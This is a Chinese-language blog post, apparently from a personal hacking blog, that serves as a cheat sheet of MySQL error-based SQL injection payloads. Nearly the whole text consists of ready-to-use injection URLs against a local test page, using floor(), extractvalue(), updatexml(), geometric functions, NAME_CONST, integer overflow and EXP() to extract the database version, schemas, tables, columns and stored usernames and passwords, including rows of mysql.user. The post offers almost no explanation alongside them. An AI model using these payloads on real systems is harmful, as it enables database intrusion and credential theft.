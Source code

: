 ```yaml
---
layout: post
title: "Mysql 报错注入"
description: "Hacking"
author: Caijiji
category: Hacking
tags: [Hacking]
---
```


* 目录
{:toc}

## Mysql 报错注入

数据库结构 php源码参考[RickGray'Blog](http://rickgray.me/2014/11/16/error-based-sql-injection.html)


###1 floor()

Example

Show Version()

    http://0.0.0.0:8001/test.php?name=aa'and (select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a)%23&pass=1

Show Databases

    http://0.0.0.0:8001/test.php?name=aa' AND (SELECT 3904 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)%23&pass=1

Show Tables

    http://0.0.0.0:8001/test.php?name=aa' AND (SELECT 3210 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x73716c69) LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)%23&pass=1

Show columns
    
    http://0.0.0.0:8001/test.php?name=aa' AND (SELECT 8575 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x75736572 AND table_schema=0x73716c69 LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)%23&pass=1

Show data
    
    http://0.0.0.0:8001/test.php?name=aa'+and(select 1 from(select count(*),concat((select (select (select concat(0x7,name,0x7e,pass,0x7e) from sqli.`user` limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23&pass=1

###2 Extractvalue()

    http://0.0.0.0:8001/test.php?name=111' and (extractvalue(1,concat(0x7e,(select user()))))%23&pass=1

    http://0.0.0.0:8001/test.php?name=111' and (extractvalue(1,concat(0x7e,(SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))))%23&pass=1

    ....

###3 updatexml()
    
    http://0.0.0.0:8001/test.php?name=111' and(updatexml (1,concat(0x7e,(select user()),0x73),1))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and(updatexml (1,concat(0x7e,((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)),0x73),1))%23&pass=1
    
    ...

###4 GeometryCollection()
    
    http://0.0.0.0:8001/test.php?name=111' and GeometryCollection((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and GeometryCollection((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###5 polygon()
    
    http://0.0.0.0:8001/test.php?name=111' and polygon((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and polygon((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###6 multipoint()
    
    http://0.0.0.0:8001/test.php?name=111' and multipoint((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and multipoint((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###7 multilinestring()
    
    http://0.0.0.0:8001/test.php?name=111' and multilinestring((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and multilinestring((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###8 multipolygon()

    http://0.0.0.0:8001/test.php?name=111' and multipolygon((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and multipolygon((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###9 linestring()
    
    http://0.0.0.0:8001/test.php?name=111' and linestring((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and linestring((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###10 NAME_CONST()
   
    http://0.0.0.0:8001/test.php?name=111' and+1=(select+*+from+(select+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)%23&pass=1

###11 整数溢出

    http://0.0.0.0:8001/test.php?name=aa' AND (select 1E308*if((select*from(select version())a limit 1)>(select version()),2,2))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=aa' AND (select 1E308*if((select*from(select*from mysql.user limit 1)a limit 1)>(select*from mysql.user limit 0),2,2))%23&pass=1

###12 EXP()
    
    http://0.0.0.0:8001/test.php?name=a' and EXP(~(SELECT*FROM(SELECT version())a))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=a' and EXP(~(SELECT*FROM((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a))%23&pass=1

From InterNet

元旦快乐
